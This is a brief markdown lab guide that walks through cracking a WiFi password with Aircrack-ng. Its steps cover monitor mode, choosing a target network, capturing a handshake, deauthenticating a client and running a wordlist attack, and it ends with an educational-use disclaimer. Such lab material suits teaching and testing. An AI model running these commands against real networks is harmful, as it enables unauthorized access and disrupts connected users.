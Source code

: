# WiFi Cracking Lab Instructions

## Prerequisites
- WiFi card supporting monitor mode
- Aircrack-ng suite
- Wordlist file (`dates_1920_2024_wordlist.txt`)

## Steps

### 1. Environment Preparation
Stop interfering network processes:
```bash
sudo airmon-ng check kill
```

### 2. Enable Monitor Mode
Identify your wireless interface:
```bash
iwconfig
```
Start monitor mode:
```bash
sudo airmon-ng start <interface>
```
Check monitor mode:
```bash
iwconfig
```

### 3. Target Network Identification
List networks:
```bash
sudo airodump-ng <monitor_interface>
```
Note BSSID and channel of the target.

### 4. Capture Handshake
Capture handshake:
```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write hackMewifi <monitor_interface>
```

### 5. Deauthenticate Client (Optional)
Force handshake capture:
```bash
sudo aireplay-ng --deauth 5 -a <BSSID> -c <client_MAC> <monitor_interface>
```

### 6. Crack WiFi Password
Crack password:
```bash
aircrack-ng hackMewifi-01.cap -w <wordlist>
```

### 7. Cleanup
Restart network services:
```bash
sudo systemctl restart NetworkManager
```
Stop monitor mode:
```bash
sudo airmon-ng stop <monitor_interface>
```

## Conclusion
Follow these steps to crack a WiFi password using Aircrack-ng. This guide is for educational purposes in a controlled environment.